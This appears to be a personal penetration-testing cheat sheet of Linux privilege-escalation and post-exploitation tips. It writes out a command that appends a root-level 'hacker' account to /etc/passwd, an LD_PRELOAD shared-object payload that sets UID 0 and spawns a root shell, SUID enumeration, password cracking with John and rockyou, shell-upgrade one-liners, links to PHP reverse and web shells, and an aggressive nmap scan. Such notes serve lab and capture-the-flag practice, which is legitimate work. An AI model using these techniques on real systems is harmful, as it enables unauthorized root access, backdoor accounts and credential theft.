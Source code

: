 # Tracking the Various Tips and Tracks learned along the way


### Adding a user to /etc/passwd  

```bash
echo hacker:$(( echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> passwd
tar -cvf passwd.tar passwd
tar -xvf passwd.tar -C /etc/
```

### Finding SUID   

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -4000 2>/dev/null`

  
### Compiling a shell  

```c
//gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

### Cracking Passwords with John  

- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format:RAW-SHA1`
- `john --list=formats`
- [Hash Formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)
- [hash-identifier](https://hashes.com/en/tools/hash_identifier)

### Cracking Passwords with Hashcat

- [Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Upgrading a shell

- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`

### Reverse Shells

- https://github.com/flozz/p0wny-shell
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Nmap Scans

- `sudo nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p-`
- 
